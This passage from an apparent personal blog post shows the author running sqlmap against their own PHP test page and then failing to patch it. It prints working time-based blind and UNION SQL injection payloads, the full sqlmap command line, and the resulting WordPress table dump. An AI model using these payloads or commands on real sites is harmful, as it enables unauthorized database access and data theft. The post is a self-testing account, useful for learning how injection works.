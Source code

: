     Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=0 AND (SELECT * FROM (SELECT(SLEEP(5)))qsxk)

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: id=0 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x47706e7344436a7a4d624171784b474d7354745867564f6d4e7a676a52416550696d5979794e4e58,0x7170707171),NULL,NULL-- -
---
[09:34:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5
[09:34:08] [INFO] fetching tables for database: 'wp'
Database: wp
[11 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

[09:34:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/bimpra.tk'

[*] shutting down at 09:34:08

root@ip-172-31-32-255:/var/www/html/sqlmap# 
{% endhighlight %}

It is end of testing. It is awesome hacking tool. I want to know if a POST module is also present, which will post data to page. Finanally, I decided to put end to this massacre by using *$id = mysql_real_escape_string($_GET['id']);*

Also, I moved the sqlmapper folder location to some other. But hacked; then I deleted the entire /root/.sqlmap/ folder, still same.

Now, I created another folder sqlmap2 and cloned git into it. Then I run command:
{% highlight %}
python sqlmap.py -u "http://bimpra.tk/test.php?id=0" -z "ign,bat" --tables -D wp
{% endhighlight %}

Again it got hacked.

Finally, I decided to change mysql root password; Again I run the above command. And guess what, it got hacked again!

I release this post now because I have terminated vps on which it was hosted :)


